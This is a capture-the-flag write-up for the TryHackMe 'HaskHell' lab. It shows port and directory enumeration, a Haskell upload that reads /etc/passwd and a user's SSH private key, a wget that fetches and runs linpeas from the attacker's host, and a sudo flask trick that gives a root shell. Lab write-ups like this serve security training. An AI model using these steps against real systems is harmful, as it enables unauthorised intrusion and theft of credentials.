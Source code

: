 ```yaml
---
title: Tryhackme - HaskHell | EN
author: batmanly
date: 2022-05-30 10:10:00 +3
categories: [Writeup, TryHackme]
tags: [web, flask, haskell, tryhackme, writeup]
render_with_liquid: false
---
```


# Information

## Room

- **Name:** HaskHell
- **Profile:** [HaskHell](https://tryhackme.com/room/haskhell)
- **Difficulty:** Medium
- **Description**: Show your professor that his PhD isn't in security.

![[]](/assets/img/tryhackme/haskhell/haskell_logo.png)

## Overview

It's a nice room , that you can use haskell and read file inside server . Previlege escalation step was easy actually that you can access root so fast .

# Write-up

Let's start enumeration and see what we can gather.

## Network enumeration

`Port` and `service` scan with nmap:

```
nmap -T4 -sV -sS  -v -p- 10.10.238.6  -sC -oN HaskHell
```

`Output:`

```

# Nmap 7.92 scan initiated Mon May 30 09:26:16 2022 as: nmap -n -Pn -T4 -sV -sS -v -p- -sC -oN HaskHell 10.10.238.6
Nmap scan report for 10.10.238.6
Host is up (0.084s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 1d:f3:53:f7:6d:5b:a1:d4:84:51:0d:dd:66:40:4d:90 (RSA)
|   256 26:7c:bd:33:8f:bf:09:ac:9e:e3:d3:0a:c3:34:bc:14 (ECDSA)
|_  256 d5:fb:55:a0:fd:e8:e1:ab:9e:46:af:b8:71:90:00:26 (ED25519)
5001/tcp open  http    Gunicorn 19.7.1
|_http-title: Homepage
| http-methods:
|_  Supported Methods: OPTIONS HEAD GET
|_http-server-header: gunicorn/19.7.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

it's look we just have ssh and http open with different port , let's go and enumerate http port.

## Web enumeration

Discovering `directories` and `files` with go buster.

```
gobuster dir -u http://10.10.238.6:5001/ -w $BIG -t 50

```

Let's enumerate files and folders then:

```
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.238.6:5001/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /home/batmanly/SecLists/Discovery/Web-Content/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/05/30 09:31:01 Starting gobuster in directory enumeration mode
===============================================================
/submit               (Status: 200) [Size: 237]

===============================================================
2022/05/30 09:32:11 Finished
===============================================================
```

![[]](/assets/img/tryhackme/haskhell/Pasted%20image%2020220530093249.png)
We found submit directory let's go and see what's there. we realized that server is waiting our haskell file for compile and return result.
we can try to upload haskhell file and try to read file or get reverse shell , i tried get reverse shell but server givin 500 message , so after time i tried reading files it's look we have permission to read file, so lets' get to work and first read /etc/passwd and see what user we can enumerate than we will read this user ssh private key for connect to server with ssh . We can use burpsuite for that we can manipulate easily request and response.

```
http://10.10.238.6:5001/submit

```

upload this file , read_file.hs .

```
import System.Process
main = do
   let file_to_read = "/etc/passwd"
   contents <- readFile file_to_read
   putStrLn contents

```

after upload file we can read passwd.
![[]](/assets/img/tryhackme/haskhell/Pasted%20image%2020220530095710.png)
let's go and read user's id_rsa file. we can enumeate user after start 1000 for this file.
i found that we can read prof id_rsa file .
change read_file.hs to read '/home/prof/.ssh/id_rsa' and get ssh private key.
![[]](/assets/img/tryhackme/haskhell/Pasted%20image%2020220530095913.png)

## Web exploitation

let's use this ssh private key to connect server.

```
chmod 600 haskhell
ssh prof@10.10.238.6 -i haskhell
```

![[]](/assets/img/tryhackme/haskhell/Pasted%20image%2020220530100047.png)

## Previlege Escalation

let's upload [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) and look if we can get any previlege escalation point to root or other user.

```
# Run Python Server
python3 -m http.server 80

# Get Linpeas
wget http://10.8.199.191/linpeas.sh

# Run Linpeas
chmod +x linpeas.sh
./linpeas.sh

```

we found that we can run flask with sudo without password , so let's get root shell from there.
![[]](/assets/img/tryhackme/haskhell/Pasted%20image%2020220530101111.png)

```
echo 'import pty;pty.spawn("/bin/bash")' > shell.py
export FLASK_APP=shell.py
sudo /usr/bin/flask run
```

![[]](/assets/img/tryhackme/haskhell/Pasted%20image%2020220530101354.png)

![[]](/assets/img/tryhackme/haskhell/root.gif)

Yep. Now we Got root.
Thanks for reading until the end , if you have any feedback i will appreciate to get , knowing different ways to get root always good for me.
